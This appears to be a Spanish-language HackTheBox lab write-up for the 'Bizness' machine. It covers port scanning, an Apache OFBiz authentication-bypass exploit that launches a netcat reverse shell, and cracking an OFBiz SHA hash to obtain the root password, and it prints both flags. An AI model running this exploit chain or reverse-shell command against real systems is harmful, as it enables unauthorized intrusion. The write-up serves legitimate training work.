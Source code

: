 # Write Up Bizness HackTheBox

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-08 05:40 EDT
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.036s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: BizNess Incorporated
| tls-alpn: 
|_  http/1.1
46287/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.47 seconds
```

Si entramos en el puerto `443` al igual que en el `80` aparecera una pagina...

### gobuster o dirb

```shell
gobuster dir -u <IP>:<PORT> -w <WORDLIST>
```

```shell
dirb https://<IP>:<PORT>/ <WORDLIST>
```

Nos descubrira `/accounting/` y si nos metemos ahi nos metera en un panel de login...

Vemos que es vulnerable con un exploit de GitHub `Apache OFBiz` en la siguiente URL:

URL: https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass

En la pagina principal con esta herramienta detectamos que es vulnerable, por lo que si nos hacemos una Reverse Shell funcionara aprovechando este exploit...

Con esto verificamos que sea vulnerable...

```shell
python3 exploit.py --url https://<IP/DOMAIN>:<PORT>
```

Con esto hacemos la Reverse Shell...

```shell
python3 exploit.py --url https://<IP/DOMAIN>:<PORT> --cmd 'nc -c sh <IP> <PORT>'
```

```shell
nc -lvnp <PORT>
```

Vamos a la home de este usuario y leemos la primera flag:

> user.txt (flag1)

```
71f58d65f5f3d731e39c92bd7870e427
```

### Escalada de privilegios

Si vamos a `/opt/ofbiz/` tendremos que investigar por ahí algun archivo llamado AdminLog... y observarlo con `cat`, viendo dentro de el archivo veremos que hay un formato de `hash`

Si ponemos el siguiente comando para buscar por el formato de cifrado en ese directorio donde se puede encontrar el `SHA`

```shell
grep -a -o -R '\$SHA\$'
```

Nos aparecerán los `.dat` que son interesantes, haciendo lo siguiente veremos todos ellos y la clave que queremos conseguir se encontrara a lo ultimo...

```shell
grep -a -R '\$SHA\$'
```

Encontramos este formato:

```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

Si lo crackeamos con un script de python en concreto de github:

URL: https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker

```shell
python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' --wordlist <WORDLIST>
```

Info:

```
[+] Attempting to crack....
Found Password: monkeybizness
hash: $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
(Attempts: 1478438)
[!] Super, I bet you could log into something with that!
```

La password de root seria `monkeybizness`

Una vez dentro leemos la ultima flag siendo la de root...

> root.txt (flag2)

```
f85a0d868944b0bd87cd48124291be4f
```
